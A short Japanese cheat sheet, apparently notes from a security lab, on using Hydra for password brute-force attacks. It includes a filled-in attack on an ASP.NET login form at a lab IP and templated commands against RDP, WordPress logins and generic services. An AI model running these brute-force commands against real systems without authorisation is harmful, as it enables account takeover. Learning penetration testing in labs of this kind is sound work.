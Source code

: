 [BurpSuite]で必要な部分を調べる
[パスワードリスト]
$ hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.153.65 http-post-form "/Account/login.aspx:__VIEWSTATE=lr0vTu%2Fpht2ZsUpniYyTUmtQ8jQlE446ChydKb%2F%2BSyZKvs4XzZ7qesO1MlyV3nCxd%2FTxAsJXDyxDISlWKsxNYb1aFC9313YMyThl2javbyoQCBsrc1LgH8Pcsk%2FyHmEp1D70WGq6hIq%2B%2BgEZLyVgIR7a%2FA6V4P4y6bLd72polrtARVmrmmIaGyYhTimH8Zs6qLBJRqvbSnD%2BbF04Gh71Z4cPUAVnTQEZJSqGeH9u%2BZ1KdhNz2jHkaJ5rwoCnaVcelFZmSY3Hy6teghWp3B1NMdq9Yt1VeihsM2UvULtN1zOsUWZ4OXV5VCy94fkqNqvS%2B0lrPZMI%2BNbkXnxYFt0jb8u4jyVMY%2B9voJPl3UJAJztokxdH&__EVENTVALIDATION=ve%2FO8U8DVvxv6i%2FUq0irsHWrl7uA780ORgVUxTkPA%2F1SEXlOyAsVjZ79a%2By%2BzKlqh9s5jGFhkB8o5FfX%2B7jxhKpt6EhHTigoPnZoICRDWS6C%2Bi8c%2FtjU0PkEPSgsEuRYMEUYeE2i4WxJ8eHAT9JCRs6ftxUpjtAF34PgtdZsYDcvvVMT&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%E3%83%AD%E3%82%B0%E3%82%A4%E3%83%B3:F=Login failed"

	選択したプロトコルに対するブルートフォース
$ hydra -P <wordlist> -v <ip> <protocol>
 Hydraは、パスワードだけでなく、ユーザー名のブルートフォースにも使用できます。リストにあるすべての組み合わせをループします。(-vV = verbose mode, ログイン試行を表示)
$ hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>
	パスワードリストを使って、Windowsリモートデスクトップを攻撃する。
$ hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
	ハイドラがブルートフォースするために、より具体的なリクエストを作成する。
$ hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
